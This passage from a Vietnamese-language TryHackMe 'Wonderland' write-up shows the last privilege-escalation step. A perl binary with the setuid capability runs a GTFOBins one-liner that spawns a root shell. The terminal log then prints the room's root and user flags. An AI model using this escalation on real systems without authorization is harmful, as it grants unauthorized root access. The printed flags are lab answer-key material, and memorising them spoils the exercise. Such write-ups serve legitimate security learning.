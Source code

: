 Ta thấy tại perl có set_id :arrow: ta có thể leo quyền được

Dùng lệnh trong https://gtfobins.github.io/gtfobins/perl/#capabilities

> perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

Ta sẽ leo được quyền root

```ps1 title="Terminal"
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whaomi
/bin/sh: 1: whaomi: not found
# whoami
root
# ^C
# exit
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
# cd /home/alice
# cat root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
# find / -iname user.txt 
/root/user.txt
# cat /root/user.txt
thm{"Curiouser and curiouser!"}
# 
```

Thực ra file user.txt thì nhìn hint ở tryhackme ta sẽ tìm được ở những giây phút ban đầu. Nhưng hiện tại mình đã là root, việc tìm file cũng chưa muộn đúng không?

## __What we learned__

1. Linux Privilege Escalation with Python Library Hijacking
2. Linux Privilege Escalation with PATH Variable
3. Linux Privilege Escalation with Capabilities
4*. abcd  